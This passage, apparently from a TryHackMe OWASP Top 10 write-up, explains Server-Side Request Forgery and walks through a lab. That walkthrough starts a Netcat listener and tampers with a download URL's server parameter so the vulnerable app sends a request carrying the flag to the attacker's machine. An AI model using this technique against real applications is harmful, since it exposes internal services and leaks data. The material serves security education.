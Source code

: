 All suspicious activities should be rated according to the impact level.

## Task 22 - Server-Side Request Forgery (SSRF)
SSRF vulnerabilities arise when an attacker forces a web application into sending requests on their behalf to arbitrary destinations while having control of the contents of the request itself. These vulnerabilities are typical for implementations where web applications need to use third-party services.

In general, SSRF can be used for:
- Enumerating internal networks, including IP addresses and ports (even when protected by firewalls and VPNs).
- Abuse trust relationships between servers and gain access to otherwise restricted services.
- Interact with some non-HTTP services to get RCEs.

See the task material on TryHackMe for an in depth example.

Let's look a simple example of SSRF vulnerability. Navigating to the URL provided, we find a simple web application which is vulnerable to SSRF. Exploring the website, we find an admin interface which is only accessible from localhost.

![SSRF Admin Interface](../../assets/images/thm/owasptop10_2021/35-ssrf_admin.png)

Looking at link for the *Download Resume* button, we see that the server parameter points to `secure-filestorage.com`. As the server parameter is exposed to the user, we can employ SSRF to send to request to our machine.

![SSRF Server](../../assets/images/thm/owasptop10_2021/36-ssrf_server.png)

Let's start by setting up *Netcat* listener on port 80 to intercept the request.

```console
nc -lvp 80
```
We can now force the web application to forward the request to our machine by modifying the server and port parameter in the URL.

```text
http://10.10.130.112:8087/download?server=10.13.17.49:80&id=75482342
```
We can retrieve the flag from the captured response.

![SSRF Flag](../../assets/images/thm/owasptop10_2021/37-ssrf_flag.png)
